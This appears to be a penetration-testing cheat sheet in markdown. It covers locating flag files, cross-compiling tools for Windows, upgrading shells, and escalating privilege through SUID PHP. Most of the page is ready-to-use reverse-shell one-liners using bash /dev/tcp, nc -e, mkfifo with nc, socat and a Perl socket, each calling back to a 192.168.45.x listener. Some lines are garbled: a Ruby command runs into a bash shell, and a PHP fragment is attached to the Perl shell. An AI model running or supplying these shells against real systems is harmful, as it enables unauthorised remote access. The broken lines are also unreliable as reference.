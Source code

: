 ##### **Search For file by name or extension**
Find a file in entire system.
```
find / -type f -name "flag.txt" 2>/dev/null
```

##### **Binary conversion using GO**
Converting binaries into any format Using GO, First navigate  to the source file and execute the command.
```
GOOS=windows GOARCH=amd64 go build -o chisel.exe -ldflags "-s -w"
```

##### **Convert c to exe binary**
```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

##### **Fully Interactive Shell**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```
stty raw -echo ; fg
```
```
perl -e 'exec "/bin/bash";'
```
```
ruby -e 'exec "/bin/bash";'bash -c 'bash -i >& /dev/tcp/192.168.45.240/4444 0>&1'
```
```
/bin/bash -ip
```

##### **Linux Reverse Shell One Liner**
Basic One liners.
```
bash -c 'bash -i >& /dev/tcp/192.168.45.242/443 0>&1'
```
```
nc -e /bin/bash 192.168.45.226 4444
```
```
mkfifo /tmp/f; nc 192.168.45.243 1234 < /tmp/f | /bin/bash > /tmp/f 2>&1; rm /tmp/f
```
```
bash -i >& /dev/tcp/192.168.45.229/22 0>&1
```
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.233:4444
```

If PHP has SUID or root privilege, can use for Privilege Escalation
```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.240:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
-r "pcntl_exec('/bin/sh', ['-p']);"
```